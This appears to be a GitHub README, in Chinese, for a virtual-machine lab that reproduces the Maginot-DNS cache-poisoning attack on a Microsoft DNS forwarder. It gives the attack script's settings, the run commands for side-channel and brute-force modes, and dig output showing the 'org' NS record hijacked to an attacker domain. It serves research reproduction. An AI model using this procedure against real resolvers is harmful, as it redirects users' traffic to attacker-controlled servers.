 # mdns-vm
## 说明
本仓库环境用于虚拟机环境复现Maginot-DNS攻击(MS DNS环境)

## 环境搭建
访问[云盘地址](https://pan.baidu.com/s/1GTnhVTFiyf0XS3RvUP4Mog?pwd=qbvr)获取`attacker`与`cdns`的虚拟机镜像

- 使用PVE系统，直接上传两个镜像备份，然后点击`restore`即可恢复
- 使用VMvare等使用`.vmdk`格式的镜像，参见[该工具](https://github.com/astroicers/zst2vmdk)将`.vma.zst`转为`.vmdk`


`attacker`
- 修改`attack.py`IP属性
  ```py
    VICTIM_DNS_SERVER = "10.2.0.2" # 修改为CDNS服务器地址
    ATTACKER_IP = "10.2.0.3" # 修改为当前attacker地址
    TRIGGER_DOMAIN = "example.com"
    TARGET_TLD_TO_HIJACK = "org"
    FAKE_NS_DOMAIN = "kie-chi.com."
    FAKE_NS_IP = "59.110.55.234"
  ```
`cdns`
- 修改`cdns`属性
  - 打开`DNS`服务的`DNS manager`，修改`Conditional Forward`的`example.com`转发的IP地址为`attacker`地址

## 实验复现
为简化实验环境与最大限度复现实验效果，`attacker`本身部署有权威服务器(即`attacker`同时有权威服务器以及攻击者两个角色)，且该权威服务器与`attack.py`进行通信，**可以泄露关键信息**，`attack`可以采用多种模式利用或不利用接收到的信息模拟多种情况

### 环境激活
在`attacker`中激活python虚拟环境，并运行server
```shell
    source venv/bin/activate
    tmux
    python3 server.py
```

### 模式一
极简攻击模式，完全利用权威服务器提供的侧信道(`TXID`、`Source Port`)，一次达成攻击目的，模拟的是真实场景下的中间人攻击
- 配置
    ```python
    # --- PORT Configuration ---
    # - Set to a range(...) to enable port brute-force mode.
    # - Set to None to enable precise port mode (fetches from side-channel).
    PORT_RANGE = None
    # (Brute-force mode only) Number of ports to guess per round.
    PORT_NUM = 20

    # --- Transaction ID (TXID) Configuration ---
    # - Set to a range(...) to enable TXID brute-force mode.
    # - Set to None to enable precise TXID mode (fetches from side-channel).
    ID_RANGE = None
    # (Brute-force mode only) Number of TXIDs to guess per round.
    ID_NUM = 5

    ROUND_MAX = -1 # Maximum number of rounds to attempt, set -1 for unlimited
    ```
- 攻击
    ```shell
    docker compose exec -it attacker python3 attack.py

    [INFO] Round 1: Starting...
    [INFO] Round 1: Waiting for side-channel intelligence...
    [INFO] Round 1: Sending 20 spoofed packets...

    [SUCCESS] Cache poisoned successfully in round 1!
    ```

### 模式二(推荐复现`TXID`)
本环境采用`MS DNS`作为CDNS，其`Source Port`范围小，一般集中在2500以内

单独将`TXID`或者`Source Port`设置为已知的范围，另一个继续**利用侧信道的信息**
- 设置`TXID`，`Source Port`保持利用信息时：相当于kaminsky攻击
- 设置`Source Port`, `TXID`保持利用信息时：相当于流量泛洪进行暴力猜解`TXID`，实验环境无法达到论文中的高带宽、高负载环境时，可以使用该方式模拟
<br>
<br>
<!-- fdsfa -->

- 配置
    ```python
    # --- PORT Configuration ---
    # - Set to a range(...) to enable port brute-force mode.
    # - Set to None to enable precise port mode (fetches from side-channel).
    PORT_RANGE = range(51000, 53500)
    # (Brute-force mode only) Number of ports to guess per round.
    PORT_NUM = 20

    # --- Transaction ID (TXID) Configuration ---
    # - Set to a range(...) to enable TXID brute-force mode.
    # - Set to None to enable precise TXID mode (fetches from side-channel).
    ID_RANGE = None
    # (Brute-force mode only) Number of TXIDs to guess per round.
    ID_NUM = 60

    ROUND_MAX = -1 # Maximum number of rounds to attempt, set -1 for unlimited
    ```
- 攻击
    ```shell
    docker compose exec -it attacker python3 attack.py

    [INFO] Round 1999: Poisoning check skipped
    [INFO] Round 2000: Starting...
    [INFO] Round 2000: Waiting for side-channel intelligence...
    [INFO] Round 2000: Sending 60 spoofed packets...

    [SUCCESS] Cache poisoned successfully in round 2000!
    [INFO] Round 2000: Reached maximum iterations, stopping.
    ```

### 模式三
完全暴力猜解，完全不利用提供的信息进行攻击


### 攻击结果
`org`域的NS记录被篡改为`kie-chi.com`，该域名是一个能够正常访问的域名
- 验证攻击结果
    ```shell
    docker compose exec -it attacker dig @10.2.0.2 org NS
    ; <<>> DiG 9.18.33-1~deb12u2-Debian <<>> @10.2.0.2 org NS
    ; (1 server found)
    ;; global options: +cmd
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 51125
    ;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 2

    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 1232
    ; COOKIE: 0eb1568a28bcf538010000006897002a6aed9abe6c649a10 (good)
    ;; QUESTION SECTION:
    ;org.                           IN      NS

    ;; ANSWER SECTION:
    org.                    3586    IN      NS      kie-chi.com.

    ;; ADDITIONAL SECTION:
    kie-chi.com.            3586    IN      A       59.110.55.234

    ;; Query time: 0 msec
    ;; SERVER: 10.2.0.2#53(10.2.0.2) (UDP)
    ;; WHEN: Sat Aug 09 08:00:42 UTC 2025
    ;; MSG SIZE  rcvd: 101
    ```
    ```shell
    docker compose exec -it attacker dig @10.2.0.2 www.org  
    
    ; <<>> DiG 9.18.33-1~deb12u2-Debian <<>> @10.2.0.2 www.org
    ; (1 server found)
    ;; global options: +cmd
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 29247
    ;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 1232
    ; COOKIE: d64ccc96cec86be2010000006896ffda99accbeeb9787deb (good)
    ;; QUESTION SECTION:
    ;www.org.                       IN      A

    ;; ANSWER SECTION:
    www.org.                86400   IN      A       1.2.3.4

    ;; Query time: 449 msec
    ;; SERVER: 10.2.0.2#53(10.2.0.2) (UDP)
    ;; WHEN: Sat Aug 09 07:59:22 UTC 2025
    ;; MSG SIZE  rcvd: 80
    ```
